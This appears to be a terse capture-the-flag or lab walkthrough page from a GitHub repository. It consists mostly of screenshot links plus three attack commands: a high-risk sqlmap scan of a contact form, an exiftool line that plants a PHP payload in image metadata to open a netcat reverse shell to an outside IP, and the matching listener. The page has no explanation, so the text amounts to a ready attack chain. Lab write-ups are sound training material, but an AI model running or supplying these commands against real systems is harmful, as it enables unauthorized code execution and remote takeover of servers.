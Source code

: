 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/93f21a62-b8f3-4bbb-86fb-2c044a001199)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/72bf2211-6966-45ac-b446-6ce76dea7192)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f896c2bc-b5e9-4103-9d85-0495b3a8fb0f)
```
sqlmap -u "http://62.173.140.174:18300/contact.php" --batch --level=5 --risk=3 --random-agent -v --tamper=space2comment --all --data="name=as&email=d%40d.ru&message=a"
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0493d916-2315-4600-94e5-02462f636eb0)
```
exiftool -DocumentName="<?php system('nc 31.186.63.22 1234 -e /bin/bash'); ?>" file.png
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/222fd2ea-78b4-40b5-aa09-d368967f1602)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7ced86ab-f32f-4b13-8900-ac81d5a976ef)
```
nc -lnvp 1234
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a8dfb044-bbf5-4b52-8156-52085959b4d5)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b7855fbb-c57d-48f5-8e90-f2ea72b76f8b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5d5622e7-4060-4da7-af10-a7dc7dc63ef9)


